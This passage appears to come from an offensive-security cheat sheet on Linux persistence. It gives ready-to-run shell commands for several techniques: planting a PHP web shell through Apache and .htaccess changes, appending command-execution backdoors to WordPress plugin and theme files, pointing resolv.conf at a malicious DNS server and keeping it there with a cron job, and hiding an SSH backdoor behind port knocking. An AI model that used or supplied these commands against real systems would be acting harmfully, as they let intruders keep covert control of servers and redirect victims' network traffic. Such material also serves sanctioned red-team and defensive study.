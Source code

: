 #### Modifying Web Server Configuration
- **Add a Backdoor to Apache Configuration:**
	```bash
	sudo bash -c 'echo "Include /var/www/html/.htaccess" >> /etc/apache2/apache2.conf'
	echo "AddType application/x-httpd-php .php" > /var/www/html/.htaccess
	echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/shell.php
	```
- **Inject Malicious Code in `.htaccess`:**
	```bash
	echo "RewriteEngine On" > /var/www/html/.htaccess
	echo "RewriteRule ^shell$ /var/www/html/shell.php [L]" >> /var/www/html/.htaccess
	```

#### Persistent Backdoors in Web Applications
- **Backdoor a WordPress Plugin:**
	```bash
	echo "<?php system(\$_GET['cmd']); ?>" >> /var/www/html/wp-content/plugins/plugin_name/plugin.php
	```
- **Create a Malicious WordPress Theme Function:**
	```bash
	echo "<?php exec(\$_GET['cmd']); ?>" >> /var/www/html/wp-content/themes/theme_name/functions.php
	```

## `resolv.conf` Persistence
An attacker can modify `/etc/resolv.conf` to redirect DNS queries to a malicious server, allowing for DNS-based persistence and control over the victim’s network communications.

#### Modify `resolv.conf`
- **Add a malicious DNS server:**
	```bash
	echo "nameserver <malicious_dns_ip>" >> /etc/resolv.conf
	```
  
#### Make the Change Persistent
- Use a cron job to continuously update `/etc/resolv.conf` in case it is overwritten by system services:
	```bash
	echo "*/5 * * * * echo 'nameserver <malicious_dns_ip>' >> /etc/resolv.conf" | crontab -
	```

## Port Knocking
Port knocking is a technique where a specific sequence of network packets ("knocks") is sent to a closed port to open a specific service.

#### Configure Port Knocking
- Use tools like `knockd` to configure port knocking to hide services such as an SSH backdoor.
- Example `/etc/knockd.conf`:
    ```bash
    [openSSH]
    sequence = 7000,8000,9000
    seq_timeout = 5
    command = /sbin/iptables -A INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
    tcpflags = syn
    ```
